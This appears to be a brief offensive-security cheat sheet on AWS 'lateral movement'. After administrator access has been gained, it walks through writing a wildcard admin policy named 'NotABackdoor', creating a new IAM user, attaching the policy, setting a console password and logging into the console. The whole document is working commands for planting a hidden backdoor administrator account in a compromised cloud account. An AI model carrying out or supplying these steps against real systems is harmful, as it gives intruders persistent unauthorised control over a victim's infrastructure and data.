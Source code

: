 # Lateral movement
# Index
* [Gain GUI Acess](#Gain-GUI-Access)

## Gain GUI Access
#### Copy and save the following
- as ```admin-policy.json```
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "NotABackdoor",
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

#### Create a new user that will give gui access to
- After gaining administrator
- Note down the ARN
```
sudo aws iam create-user --user-name gui-user --profile <profile name>
```

#### Attach the policy to the new user
```
sudo aws iam put-user-policy --user-name gui-user --policy-name VisualAid --policy-document file://admin-policy.json --profile <profile name>
```

#### Set password for the user
```
sudo aws iam create-login-profile --user-name gui-user --password "GUIAccessTime1" --profile <profile name>
```

#### Login with account ID
- Part from ARN
- https://<Account-ID-Number>.signin.aws.amazon.com/console/
